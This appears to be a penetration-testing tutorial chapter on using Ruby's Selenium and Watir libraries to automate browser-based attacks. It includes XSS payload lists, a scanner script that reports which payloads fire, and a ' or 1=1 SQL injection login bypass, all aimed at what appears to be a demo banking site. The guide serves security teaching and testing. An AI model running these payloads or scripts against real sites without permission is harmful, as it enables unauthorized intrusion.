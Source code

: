 # Browser Manipulation 
As a hacker, sometimes you need to automate your client side tests (ex. XSS) and reduce the false positives that happen specially in XSS tests. The traditional automation depends on finding the sent payload been received in the response, but it doesn't mean the vulnerability get really exploited so you have to do it manually again and again.

Here we'll learn to make ruby control our browser in order to **emulate** the same attacks from browser and get the real results.

The most known APIs for this task are ***Selenium*** and ***Watir*** which support most know web browsers currently exist.

## Selenium Webdriver
[**Selenium**](https://github.com/seleniumhq/selenium) is an umbrella project encapsulating a variety of tools and libraries enabling web browser automation.

- To install selenium gem
```
gem install selenium-webdriver
```


### GET Request 
```ruby
#!/usr/bin/env ruby
#
#
require "selenium-webdriver"

# Profile Setup and Tweak 
proxy = Selenium::WebDriver::Proxy.newproxy = Selenium::WebDriver::Proxy.new(
  :http     => PROXY,
  :ftp      => PROXY,
  :ssl      => PROXY
)       # Set Proxy hostname and port 
profile = Selenium::WebDriver::Firefox::Profile.from_name "default"     # Use an existing profile name 
profile['general.useragent.override'] = "Mozilla/5.0 (compatible; MSIE 9.0; " + 
                                        "Windows Phone OS 7.5; Trident/5.0; " + 
					                    "IEMobile/9.0)"                 # Set User Agentprofile.proxy = proxy                                                   # Set Proxy
profile.assume_untrusted_certificate_issuer = false                     # Accept untrusted SSL certificates 

# Start Driver 
driver = Selenium::WebDriver.for(:firefox, :profile => profile)         # Start firefox driver with specified profile
# driver = Selenium::WebDriver.for(:firefox, :profile => "default")     # Use this line if just need a current profile and no need to setup or tweak your profile
driver.manage.window.resize_to(500, 400)                                # Set Browser windows size
driver.navigate.to "http://www.altoromutual.com/search.aspx?"           # The URL to navigate 

# Interact with elements
element = driver.find_element(:name, 'txtSearch')   # Find an element named 'txtSearch'
element.send_keys "<img src=x onerror='alert(1)'>"  # Send your keys to element
element.send_keys(:control, 't')                    # Open a new tab
element.submit                                      # Submit the text you've just sent
```


> Note that the actual keys to send depend on your OS, for example, Mac uses `COMMAND + t`, instead of `CONTROL + t`.


### POST Request 
```ruby
#!/usr/bin/env ruby
#
#
require 'selenium-webdriver'

browser = Selenium::WebDriver.for :firefox
browser.get "http://www.altoromutual.com/bank/login.aspx"

wait = Selenium::WebDriver::Wait.new(:timeout => 15)		# Set waiting timeout
# Find the input elements to interact with later.
input = wait.until {
  element_user = browser.find_element(:name, "uid")
  element_pass = browser.find_element(:name, "passw")
  # Retrun array of elements when get displayed
  [element_user, element_pass] if element_user.displayed? and element_pass.displayed?
}

input[0].send_keys("' or 1=1;--")   # Send key for the 1st element 
input[1].send_keys("password")      # Send key fro the next element
sleep 1

# Click/submit the button based the form it is in (you can also call 'btnSubmit' method)
submit = browser.find_element(:name, "btnSubmit").click #.submit

# browser.quit
```


Let's test the page against XSS vulnerability. First I'll list what kind of action we need from browser

1. Open a browser window (Firefox)
2. Navigate to a URL (altoromutual.com)
3. Perform some operations (Send an XSS payload)
4. Check if the payload is working(Popping-up) or it's a false positive 
5. Print the succeed payloads on terminal

**selenium-xss.rb**
```ruby
#!/usr/bin/env ruby
#
#
require 'selenium-webdriver'

payloads = 
  [ 
    "<video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

browser = Selenium::WebDriver.for :firefox
browser.manage.window.resize_to(500, 400)
browser.get "http://www.altoromutual.com/search.aspx?"

wait = Selenium::WebDriver::Wait.new(:timeout => 20)

payloads.each do |payload|
  input = wait.until do
      element = browser.find_element(:name, 'txtSearch')
      element if element.displayed?
  end
  input.send_keys(payload)
  input.submit
  
  begin 
    wait.until do 
      txt = browser.switch_to.alert
      if (1..100) === txt.text.to_i
	    puts "Payload is working: #{payload}"
	    txt.accept 
      end
    end
  rescue Selenium::WebDriver::Error::NoAlertOpenError
    puts "False Positive: #{payload}"
    next
  end
  
end

browser.close
```

Result
```
> ruby selenium-xss.rb
Payload is working: <video src=x onerror=alert(1);>
Payload is working: <img src=x onerror='alert(2)'>
Payload is working: <script>alert(3)</script>
Payload is working: <svg/OnlOad=prompt(4)>
False Positive: javascript:alert(5)
False Positive: alert(/6/.source)
```



## Watir Webdriver
[**Watir**](http://watirwebdriver.com/) is abbreviation for (Web Application Testing in Ruby). I believe that Watir is more elegant than Selenium but I like to know many ways to do the same thing, just in case. 

- To install watir gem
```
gem install watir-webdriver
```


### GET Request 

```ruby
#!/usr/bin/env ruby
#
#
require 'watir-webdriver'

browser = Watir::Browser.new :firefox
browser.goto "http://www.altoromutual.com/search.aspx?"
browser.text_field(name: 'txtSearch').set("<img src=x onerror='alert(1)'>")
btn = browser.button(value: 'Go')
puts btn.exists?
btn.click

# browser.close
```

### POST Request 

```ruby
#!/usr/bin/env ruby
#
#
require 'watir-webdriver'

browser = Watir::Browser.new :firefox
browser.window.resize_to(800, 600)
browser.window.move_to(0, 0)
browser.goto "http://www.altoromutual.com/bank/login.aspx"
browser.text_field(name: 'uid').set("' or 1=1;-- ")
browser.text_field(name: 'passw').set("password")
btn = browser.button(name: 'btnSubmit').click 

# browser.close
```

> - Since Waiter is integrated with Selenium, you can use both to achieve one goal 
> - For Some reason in some log-in cases, you may need to add a delay time between entering username and password then submit.



## Selenium, Watir Arbitrary POST request
Here another scenario I've faced, I was against POST request without submit button, that means the test was against s





<br><br><br>
---
- [Selenium official documentations](http://docs.seleniumhq.org/docs/)
- [Selenium Cheat Sheet](https://gist.github.com/kenrett/7553278) 
- [Selenium webdriver vs Watir-webdriver in Ruby](http://watirmelon.com/2011/05/05/selenium-webdriver-vs-watir-webdriver-in-ruby/)
- [Writing automate test scripts in Ruby](https://www.browserstack.com/automate/ruby)
- [Selenium WebDriver and Ruby](https://swdandruby.wordpress.com/)
- [The Selenium Guidebook - Commercial ](https://seleniumguidebook.com/)
- [Watir WebDriver](http://watirwebdriver.com/)
- [Watir Cheat Sheet](https://github.com/watir/watir/wiki/Cheat-Sheet)